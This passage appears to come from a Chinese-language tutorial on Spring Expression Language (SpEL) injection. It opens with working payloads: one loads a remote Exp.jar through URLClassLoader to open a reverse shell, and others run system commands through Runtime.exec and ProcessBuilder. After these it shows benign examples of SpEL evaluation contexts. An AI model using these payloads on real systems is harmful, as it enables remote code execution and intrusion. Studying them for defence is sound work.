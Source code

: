 ```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333") //反弹shell
```

```java
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.Runtime\").getRuntime().exec(\"calc\")";
"T(ClassLoader).getSystemClassLoader().loadClass(\"java.lang.ProcessBuilder\").getConstructors()[1].newInstance(new String[]{\"calc\"}).start()";
// 这里得先获取AppClassLoader，可以通过其他类获取T(org.springframework.expression.Expression).getClass().getClassLoader()
```

#### 上下文环境

从前面自定义注册加载变量的代码中可以看出，SpEL表达式是由一个上下文环境的概念的，可以在上下文环境中注册变量、对象和方法，例子如下

* 这里有点像ONGL表达式

```java
ExpressionParser parser = new SpelExpressionParser();
EvaluationContext context = new StandardEvaluationContext("rui0");
context.setVariable("variable", "ruilin");
String result1 = parser.parseExpression("#variable").getValue(context, String.class);
System.out.println(result1);
 
String result2 = parser.parseExpression("#root").getValue(context, String.class);
System.out.println(result2);
String result3 = parser.parseExpression("#this").getValue(context, String.class);
System.out.println(result3);
```

```java
public class A {
    String name;
 
    public String getName() {
        return name;
    }
 
    public void setName(String name) {
        this.name = name;
    }
 
    public A(String name) {
        this.name = name;
    }
}
```

```java
A a=new A("ruilin");
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("name");
EvaluationContext context = new StandardEvaluationContext(a);
String name = (String) exp.getValue(context);
System.out.println(name);
exp.setValue(context,"ruilin setValue");
name = (String) exp.getValue(context);
System.out.println(name);
System.out.println(a.getName())
```
